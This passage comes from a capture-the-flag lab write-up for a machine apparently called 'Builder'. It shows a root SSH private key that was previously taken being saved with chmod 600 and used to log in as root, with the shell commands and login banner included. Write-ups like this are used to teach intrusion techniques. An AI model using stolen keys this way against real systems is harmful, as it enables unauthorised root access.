 And we get the SSH key for root user.

![builder13](./assets/builder13.png)

Here we can update the script and cat the root flag directly.
To get root access we will continue to get the SSH key and create a local ssh key to login as root.

Create the local key and chmod to `600`.

```shell
labadmin@labmachine:~/builder$ chmod 600 id_rsa

labadmin@labmachine:~/builder$ ls -l id_rsa
-rw------- 1 labadmin labadmin 2602 Apr 16 03:22 id_rsa
```

SSH as root and get the root flag.

```shell
labadmin@labmachine:~/builder$ ssh -i ./id_rsa root@10.10.11.10
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Apr 16 10:25:15 AM UTC 2024

  System load:              0.0
  Usage of /:               66.7% of 5.81GB
  Memory usage:             40%
  Swap usage:               0%
  Processes:                214
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.10
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:e71c

```